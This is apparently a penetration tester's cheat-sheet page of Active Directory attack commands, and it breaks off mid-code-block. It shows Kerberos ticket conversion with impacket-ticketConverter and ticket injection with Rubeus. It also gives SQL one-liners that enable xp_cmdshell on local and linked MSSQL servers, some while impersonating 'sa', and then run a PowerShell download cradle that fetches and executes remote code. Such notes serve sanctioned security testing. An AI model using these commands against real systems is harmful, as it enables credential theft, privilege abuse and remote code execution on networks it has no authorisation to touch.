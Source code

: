 ```ad-example
title: Convert Kerberos Tickets

Converting a ccache file found in tmp: 

~~~bash
impacket-ticketConverter krb5cc_ ticket.kirbi
~~~

Converting kirbi to ccache

~~~bash
impacket-ticketConverter ticket.kirbi krb5cc_
~~~

Injecting ticket with Rubeus: 

~~~powershell
Rubeus.exe ptt /ticket:ticket.kirbi
~~~
```

*Screenshots*

___

___

```ad-example
title: MSSQL Lateral Movement

[MSSQL AD Abuse | HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)
[Pentesting MSSQL | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[MSSQL Injection | PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
[SQL injection cheat sheet | PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)


Enable xp_cmdshell on current machine (one-liner)

~~~sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell DOWNLOADCRADLE'
~~~

Enable xp_cmdshell on current machine impersonating 'sa'

~~~sql
EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell DOWNLOADCRADLE'
~~~

Enable xp_cmdshell on remote machine impersonating 'sa'

~~~sql
EXECUTE AS LOGIN = 'sa';
EXEC ('sp_configure ''show advanced options'', 1; reconfigure') AT TARGET
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT TARGET
EXEC ('xp_cmdshell ''powershell DOWNLOADCRADLE'' ') AT TARGET
~~~

Enable xp_cmdshell by executing query on remote machine, targeting your machine; impersonating 'sa'. Double jump

~~~sql
```